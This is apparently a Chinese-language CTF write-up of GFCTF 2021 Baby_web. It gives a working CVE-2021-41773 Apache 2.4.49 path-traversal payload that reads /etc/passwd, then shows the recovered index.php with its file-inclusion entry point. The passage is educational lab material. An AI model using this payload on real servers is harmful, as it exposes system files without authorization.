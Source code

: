 ##  复现环境
https://www.ctfer.vip/problem

## GFCTF 2021 Baby_web

###  考点

1. `Apache 2.4.49`的一个目录穿越的`cve`漏洞

2. 利用exec外带命令执行

###  wp

看到`Apache`的版本号是2.4.49，相信很多小伙伴已经意识到前段时间爆出来的`CVE-2021-41773`

payload

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220707113732070](img/92f147ffd4d827b8017e1ffdee85b2f1.png)



拿到源码

index.php

```php
<?php
error_reporting(0);
define("main","main");
include "Class.php";
$temp = new Temp($_POST);//入口
$temp->display($_GET['filename']);//进入display函数，后续进行文件包含
?>
```
